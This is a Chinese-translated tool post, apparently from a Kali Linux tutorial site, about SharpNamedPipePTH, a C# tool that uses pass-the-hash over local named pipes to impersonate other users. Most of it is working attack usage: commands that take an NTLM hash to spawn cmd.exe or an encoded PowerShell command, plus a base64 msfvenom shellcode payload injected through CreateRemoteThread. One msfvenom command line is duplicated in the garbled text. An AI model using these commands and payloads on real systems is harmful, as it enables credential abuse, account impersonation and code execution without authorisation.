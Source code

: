 # SharpNamedPipePTH:将哈希传递给命名管道以进行令牌模拟

> 原文：<https://kalilinuxtutorials.com/sharpnamedpipepth/>

[![](img/d9a66ef2f8ff9f33dbae583e6b702275.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi89I62ESZQFCXUQ9dDUwP2O-igsvsewNphLe-JEuCyRJRntDnTJNcujn5RrCK2WydKJHolWdlxbP4V1vlEMPV9zd1H7TI7TQ7wxbeDCAETgL2Z3yupg33KxsbKmfm_-ieK6N3sg83Xwz5Xau1LAjqCj_NPXMxryU8DdExM-Pjc_QiVywudikhPAbkV/s728/NamedPipePTH_2_Example2-738687.png)

SharpNamedPipePTH 是一个 C#工具，使用传递散列在本地命名管道上进行身份验证，用于用户模拟。您需要本地管理员或个人权限才能使用它。有一篇博文做了解释:

https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/

它主要基于 Sharp-SMBExec 项目的代码。

我在过去面临过某些攻击性安全项目的情况，我已经有了一个用户账户的 NTLM 散列，并且需要在当前被入侵的系统上为该用户提供一个 shell 但是这对于当前的公共工具来说是不可能的。想象一下另外两个情况——NTLM 散列无法被破解*和*没有受害用户在其中执行外壳代码或迁移到该进程的进程。对你们中的一些人来说，这听起来像是一个荒谬的边缘案例。我还是经历了很多次。不仅仅是在一个项目中，我花了很多时间在特定的情况下寻找合适的工具/技术。

我对工具/技术的个人目标是:

*   全功能外壳或 C2 连接作为受害者用户帐户
*   它还必须能够模拟`**low privileged**`账户——根据项目目标，可能需要特定用户(如 CEO、人力资源账户、SAP 管理员或其他人)访问系统
*   该工具可用作 C2 模块

不幸的是，被模拟的用户*不允许网络认证*，因为新进程正在使用一个受限的模拟令牌。因此，您只能对另一个用户的本地操作使用这种技术。

有两种方法可以使用 SharpNamedPipePTH。您可以执行二进制文件(带或不带参数):

`**SharpNamedPipePTH.exe username:testing hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:C:\windows\system32\cmd.exe**`

![](img/30d6f82a3c190b7b4e6b6f6c58ab7788.png)

`**SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:"C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe" arguments:"-nop -w 1 -sta -enc bgBvAHQAZQBwAGEAZAAuAGUAeABlAAoA"**`

或者您可以作为另一个用户执行外壳代码:

`**SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 shellcode:/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY21kLmV4ZQA=**`

也就是`**msfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=threadmsfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=thread | base64 -w0**`。

我对 shellcode 的执行还不满意，因为它目前正在生成 notepad 作为模拟用户，并通过 D/Invoke createremotethead Syscall 将 shellcode 注入到新进程中。我仍然在寻找在后台产生一个进程或执行外壳代码的可能性，而不需要目标用户的进程来分配内存。

![](img/fd2ae80574de4b2226797ca4f7a6bd81.png)[**Download**](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH)
